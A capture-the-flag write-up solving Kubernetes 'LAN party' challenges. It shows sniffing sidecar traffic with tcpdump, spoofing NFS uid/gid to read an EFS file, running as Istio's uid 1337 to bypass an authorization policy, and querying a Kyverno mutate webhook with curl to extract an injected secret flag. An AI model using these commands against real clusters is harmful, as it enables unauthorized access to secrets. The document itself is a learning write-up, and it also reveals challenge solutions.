





Long time no CTF~~

## RECON

Just check the environment related to K8s using `env` and reconnoiter internal service using `dnscan`



This blog is good written [link](https://thegreycorner.com/2023/12/13/kubernetes-internal-service-discovery.html)

## Finding Neighbours

According to the description, the sidecar container of current pod is sending some information (possibly flag) to remote server. So, the first step is digging the remote server like what we do in the first challenge, which leads me to `reporting-service.k8s-lan-party.svc.cluster.local`.

As we all know, all containers within same pod share one network namespace, which means we can sniff the traffic from our current container.

```sh
tcpdump -i any host reporting-service.k8s-lan-party.svc.cluster.local and tcp -w traffic.pcap
```

and the flag was in the `traffic.pcap`


## DATA LEAKAGE

> The targeted big corp utilizes outdated, yet cloud-supported technology for data storage in production. But oh my, this technology was introduced in an era when access control was only network-based.

At first glance, I thought the data storage is `nfs`, and found the existence of `/efs/flag.txt`. However, there is no enough permission to read it, while I failed to mount the remote storage to local host, so I stopped and didn't have any progress until the end of the game.


By executing `mount`, here we got:

```
fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com:/ on /efs type nfs4 (ro,relatime,vers=4.1,rsize=1048576,wsize=1048576,namlen=255,hard,noresvport,proto=tcp,timeo=600,retrans=2,sec=sys,clientaddr=192.168.30.72,local_lock=none,addr=192.168.124.98)
```

Since the remote storage use `nfs4`, we should specify the version when listing it.

```sh
nfs-ls nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com/?version=4
```

try to cat the remote `flag.txt`, but there is no enough permission.

```sh
nfs-cat nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//flag.txt?version=4
```


However, according to the libnfs document, we could spoof uid and gid by adding parameters to the nfs url and get elevated privileges.



```sh
nfs-cat "nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//flag.txt?version=4&uid=0&gid=0"
```



## The Beauty and The Ist

> Apparently, new service mesh technologies hold unique appeal for ultra-elite users (root users). Don't abuse this power; use it responsibly and with caution.

The given policy is 

```yml
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
  name: istio-get-flag
  namespace: k8s-lan-party
spec:
  action: DENY
  selector:
    matchLabels:
      app: "{flag-pod-name}"
  rules:
  - from:
    - source:
        namespaces: ["k8s-lan-party"]
    to:
    - operation:
        methods: ["POST", "GET"]
```

The policy in this challenge block `GET` and `POST` requests from namespace `k8s-lan-party`
Find Istio service

```sh
dnscan -subnet 10.100.0.1/16
```



The request to this address will be denied. However, there seems to be user that can bypass the Istio's IPTables rules from hist#2.

`cat /etc/passwd | grep 1337`

And we got user `istio`, According to [ncc report](https://istio.io/v1.11/blog/2021/ncc-security-assessment/NCC_Group_Google_GOIST2005_Report_2020-08-06_v1.1.pdf) and [Istio Iptables](https://github.com/istio/istio/wiki/Understanding-IPTables-snapshot#use-pid-to-get-iptables), **the 1337 uid is used to distinguish between traffic originating from proxy vs the applications**, which means we can bypass the policy restriction by switching to user `istio` and send requests, which would be recognized as traffic from istio sidercar proxy.



## Who will guard the guardians?

> Where pods are being mutated by a foreign regime, one could abuse its bureaucracy and leak sensitive information from the [administrative](https://kubernetes.io/docs/reference/access-authn-authz/extensible-admission-controllers/#request) services.

The given policy:

```yml
apiVersion: kyverno.io/v1
kind: Policy
metadata:
  name: apply-flag-to-env
  namespace: sensitive-ns
spec:
  rules:
    - name: inject-env-vars
      match:
        resources:
          kinds:
            - Pod
      mutate:
        patchStrategicMerge:
          spec:
            containers:
              - name: "*"
                env:
                  - name: FLAG
                    value: "{flag}"
```

Kyverno is designed for policy management. The policy will inject flag into Pod resource created under `sensitive-ns`.

According to GPT, `AdmissionReview` is a kind of API resource used in admission control process. K8s supports two types of admission control webhooks to handle `AdmissionReview`: `ValidatingAdmissionWebhook` and `MutatingAdmissionWebhook`, the latter is called before validating object correctness, it can modify objects in the request, while the former is called after all `MutatingAdmissionWebhook` to check the state of the object for validity but does not modify it.

Obviously, the policy facilitates MutatingAdmissionWebhook to modify object.

Reconnoiter services first:

```
10.100.86.210 -> kyverno-cleanup-controller.kyverno.svc.cluster.local.
10.100.217.223 -> kyverno-cleanup-controller-metrics.kyverno.svc.cluster.local.
10.100.232.19 -> kyverno-svc.kyverno.svc.cluster.local.
10.100.126.98 -> kyverno-svc-metrics.kyverno.svc.cluster.local.
10.100.158.213 -> kyverno-reports-controller-metrics.kyverno.svc.cluster.local.
10.100.171.174 -> kyverno-background-controller-metrics.kyverno.svc.cluster.local.
```

What if we can utilize the MutatingAdmissionWebhook to steal the secret since we can access to `https://kyverno-svc.kyverno.svc.cluster.local/mutate`? The AdmissionReview requests to this api will be responsed by object modified by the kyverno, which makes a lot sense.

use the following resource to generate `AdmissionReview`

```yml
apiVersion: v1
kind: Pod
metadata:
  name: curl-flag
  namespace: sensitive-ns
spec:
  containers:
  - name: curl-container
    image: curlimages/curl
```

```sh
./kube-review create pod.yaml > pod.json
curl -k -X POST \
https://kyverno-svc.kyverno.svc.cluster.local/mutate \
  -H 'content-type: application/json' \
  --data-binary "@pod.json"
```

We got:

```json
{"kind":"AdmissionReview","apiVersion":"admission.k8s.io/v1","request":{"uid":"dd916513-9b96-4220-ae2b-b21470612d69","kind":{"group":"","version":"v1","kind":"Pod"},"resource":{"group":"","version":"v1","resource":"pods"},"requestKind":{"group":"","version":"v1","kind":"Pod"},"requestResource":{"group":"","version":"v1","resource":"pods"},"name":"curl-flag","namespace":"sensitive-ns","operation":"CREATE","userInfo":{"username":"kube-review","uid":"ee8332cb-afa6-412e-b60a-641f23d28980"},"object":{"kind":"Pod","apiVersion":"v1","metadata":{"name":"curl-flag","namespace":"sensitive-ns","creationTimestamp":null},"spec":{"containers":[{"name":"curl-container","image":"curlimages/curl","resources":{}}]},"status":{}},"oldObject":null,"dryRun":true,"options":{"kind":"CreateOptions","apiVersion":"meta.k8s.io/v1"}},"response":{"uid":"dd916513-9b96-4220-ae2b-b21470612d69","allowed":true,"patch":"W3sib3AiOiJhZGQiLCJwYXRoIjoiL3NwZWMvY29udGFpbmVycy8wL2VudiIsInZhbHVlIjpbeyJuYW1lIjoiRkxBRyIsInZhbHVlIjoid2l6X2s4c19sYW5fcGFydHl7eW91LWFyZS1rOHMtbmV0LW1hc3Rlci13aXRoLWdyZWF0LXBvd2VyLXRvLW11dGF0ZS15b3VyLXdheS10by12aWN0b3J5fSJ9XX0sIHsicGF0aCI6Ii9tZXRhZGF0YS9hbm5vdGF0aW9ucyIsIm9wIjoiYWRkIiwidmFsdWUiOnsicG9saWNpZXMua3l2ZXJuby5pby9sYXN0LWFwcGxpZWQtcGF0Y2hlcyI6ImluamVjdC1lbnYtdmFycy5hcHBseS1mbGFnLXRvLWVudi5reXZlcm5vLmlvOiBhZGRlZCAvc3BlYy9jb250YWluZXJzLzAvZW52XG4ifX1d","patchType":"JSONPatch"}}
```


